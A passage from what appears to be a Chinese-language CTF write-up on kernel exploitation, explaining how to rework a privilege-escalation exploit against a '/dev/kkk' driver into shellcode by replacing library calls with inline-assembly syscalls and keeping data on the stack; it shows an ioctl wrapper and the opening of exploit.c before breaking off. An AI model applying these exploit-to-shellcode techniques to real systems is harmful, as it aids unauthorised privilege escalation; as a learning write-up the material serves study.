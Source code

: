 ![](https://s2.loli.net/2022/07/16/eXnSdaGHsO317PJ.png)

#### 修改 exp

至此，我们打穿了内核。接下来不要忘了外面还套了一层 parser，所以我们得用 shellcode 来执行 exploit.c 提权，需要对 exp 进行一些修改。

首先，把能删的全删掉，比如打印信息、错误判断等语句。确认无误后进入下一步。

然后，我们需要把函数调用改成内嵌汇编，让它们全部不经过标准库函数（因为要全部转成 shellcode）。比如将 `ioctl` 改成 `__asm_my_ioctl` 。这里修饰词均为 static 与 inline。确认无误后进入下一步。

```c
static inline ssize_t __asm_my_ioctl(unsigned long fd, unsigned long cmd, unsigned long value)
{
    ssize_t ret;
    asm volatile(
        "syscall"
        : "=a"(ret)
        : "0"(__NR_ioctl), "D"(fd), "S"(cmd), "d"(value)
        : "rcx", "r11", "memory");
    return ret;
}
```

最后，避免使用数据段与 .bss 段的常量，把所有变量都放栈上。比如把 `open("/dev/kkk")` 写成 `buf[0x10]="/dev/kkk"; open(buf)`。好，改完之后我们的 exploit.c 变成了这个样子，测试一下发现还是能打通。

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <errno.h>
#include <stdint.h>
#include <asm/unistd.h>

struct AddParam{
    unsigned long long type; // type and enc
    unsigned long long key_len;
    char * key;
    unsigned long long data_len;
    char * data;   
};

struct OtherParam{
    unsigned long long id;
    unsigned long long key_len;
    char * key;
    unsigned long long data_len;
    char * data;     
};

static inline ssize_t __asm_my_ioctl(unsigned long fd, unsigned long cmd, unsigned long value)
{
    ssize_t ret;
    asm volatile(
        "syscall"
        : "=a"(ret)
        : "0"(__NR_ioctl), "D"(fd), "S"(cmd), "d"(value)
        : "rcx", "r11", "memory");
    return ret;
}
```